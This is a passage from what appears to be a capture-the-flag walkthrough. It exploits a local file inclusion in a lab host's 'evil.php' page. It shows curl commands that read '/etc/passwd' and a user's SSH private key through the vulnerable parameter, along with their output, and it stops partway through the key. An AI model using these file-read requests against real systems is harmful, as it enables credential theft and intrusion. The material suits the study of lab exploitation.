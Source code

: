 We have a hit on the get parameter `command` with the argument `/etc/passwd`. Let's curl it to see the output : 

```bash
curl http://192.168.211.212/secret/evil.php?command=/etc/passwd
```

### Output :

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin

```

Looks like we have an LFI here. From the `/etc/passwd` file, we can see two users `root` and `mowree` . Let's check if there are any private ssh keys belonging to that user that we can read.
private keys are generally located in `/home/{username}/.ssh/id_rsa`.

```bash
curl "http://192.168.211.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa"
```

### Output: 

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E

uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mldb
+gzWGBUmKTOLO/gcuAZC+Tj+BoGkb2gneiMA85oJX6y/dqq4Ir10Qom+0tOFsuot
b7A9XTubgElslUEm8fGW64kX3x3LtXRsoR12n+krZ6T+IOTzThMWExR1Wxp4Ub/k
HtXTzdvDQBbgBf4h08qyCOxGEaVZHKaV/ynGnOv0zhlZ+z163SjppVPK07H4bdLg
9SC1omYunvJgunMS0ATC8uAWzoQ5Iz5ka0h+NOofUrVtfJZ/OnhtMKW+M948EgnY
zh7Ffq1KlMjZHxnIS3bdcl4MFV0F3Hpx+iDukvyfeeWKuoeUuvzNfVKVPZKqyaJu
rRqnxYW/fzdJm+8XViMQccgQAaZ+Zb2rVW0gyifsEigxShdaT5PGdJFKKVLS+bD1
tHBy6UOhKCn3H8edtXwvZN+9PDGDzUcEpr9xYCLkmH+hcr06ypUtlu9UrePLh/Xs
94KATK4joOIW7O8GnPdKBiI+3Hk0qakL1kyYQVBtMjKTyEM8yRcssGZr/MdVnYWm
VD5pEdAybKBfBG/xVu2CR378BRKzlJkiyqRjXQLoFMVDz3I30RpjbpfYQs2Dm2M7
Mb26wNQW4ff7qe30K/Ixrm7MfkJPzueQlSi94IHXaPvl4vyCoPLW89JzsNDsvG8P
```